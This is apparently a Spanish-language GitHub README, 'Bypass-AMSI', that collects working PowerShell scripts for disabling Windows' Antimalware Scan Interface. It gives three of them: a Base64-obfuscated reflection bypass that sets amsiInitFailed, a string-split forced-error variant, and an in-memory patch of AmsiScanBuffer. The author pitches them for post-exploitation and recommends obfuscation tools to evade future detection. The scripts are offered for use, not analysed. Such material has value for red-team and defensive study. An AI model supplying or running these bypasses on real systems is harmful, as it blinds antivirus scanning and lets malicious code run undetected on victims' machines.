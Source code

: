 # Bypass-AMSI
Estudio de la Protección AMSI de Windows

Este repositorio contiene algunos métodos de evasión en AMSI que he encontrado, fueron probados en los siguiewntes sistemas operativos:

- Windows 10
- Windows 11
- Windows Server 2016
- Windows Server 2019
- Windows Server 2022


Todos en sus versión nás reciente para el momento (21H2) y probados en PowerShell 5.1 como en 7.2

Se dejaron por fuera técnicas que ya han sido parchadas o que utilicen ejecutables o DLL modificadas debido a que, con el pasar del tiempo, las firmas de estos archivos son detectados por los antivirus; por esta razón se privilegiaron aquellas técnicas que puedan ser ejecutadas en memoria y con un usuario estándar lo cuales pueden ser útiles en un escenario de post explotación.

Estos scripts podrían ser detectados por AMSI en el futuro. Por lo que recomiendo usar herramienta de ofuscaión como [Chimera](https://github.com/tokyoneon/Chimera) o [Invoke-Stelth](https://github.com/JoelGMSec/Invoke-Stealth).

1. [Método Reflection de Matt Graeber](#Método Reflection de Matt Graeber "Goto Método Reflection de Matt Graeber")
2. [Error Forzado](#ferror)
3. DLL Hijacking
4. [Memory Patching](#patching)
5. Ofuscación con Chimera

## Método Reflection de Matt Graeber {#reflection}

<details><summary>Ver Script</summary>
<p>
 
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
 </p>
</details>

## Error Forzado {#ferror}

<details><summary>Ver Script</summary>
<p>
 
```powershell
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils' 
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)   
```
 </p>
</details>


## Memory Patching {#patching}

<details><summary>Ver Script</summary>
<p>

```powershell
$Win32 = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Win32 {
 
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
 
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
 
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
 
}
"@
 
Add-Type $Win32
 
$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]0)
$Patch = [Byte[]] (0xc3, 0x90, 0x90)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 3)  
```
</p>
</details>
